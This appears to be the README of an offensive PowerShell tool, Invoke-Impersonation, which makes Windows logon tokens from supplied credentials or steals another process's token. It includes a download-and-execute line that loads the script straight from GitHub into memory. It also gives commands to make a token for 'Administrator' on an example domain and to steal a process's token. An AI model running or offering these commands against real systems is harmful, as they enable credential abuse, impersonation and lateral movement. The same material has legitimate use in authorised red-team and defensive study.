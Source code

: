 # Invoke-Impersonation
Make a Token (local admin rights not required) or Steal the Token of the specified Process ID (local admin rights required)

### Note:

The logon session created has the same local identifier as the caller. If you run commands that access local resources (like whoami), they will appear to be run under the original user context. 

This is because, locally, nothing has changed. The LUID is the same as the caller, so it appears as though you're still the original user.

However, the alternate credentials are used when accessing a remote resource.

This logon type is designed specifically for cases where you need to specify alternate credentials for outbound network connections, without affecting the local user context. 

This also means that the created token is not applicable to anything you may want to run on the current machine.

Use `rev2self` to drop any impersonation that may be in play.

### Load in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-Impersonation/main/Invoke-Impersonation.ps1')
```

### Make a token
```
Invoke-Impersonation -MakeToken -Username "Administrator" -Domain "ferrari.local" -Password "P@ssw0rd!"
```

### Steal a token
```
Invoke-Impersonation -Steal -ProcessID 5380
```

### Rev2Self
```
Invoke-Impersonation -rev2self
```

![image](https://github.com/Leo4j/Invoke-Impersonation/assets/61951374/8a16bca9-b214-4e76-ba0e-b577585e9185)

![image](https://github.com/Leo4j/Invoke-Impersonation/assets/61951374/12025262-07fa-4df4-9c77-dc9d2f6bcc34)

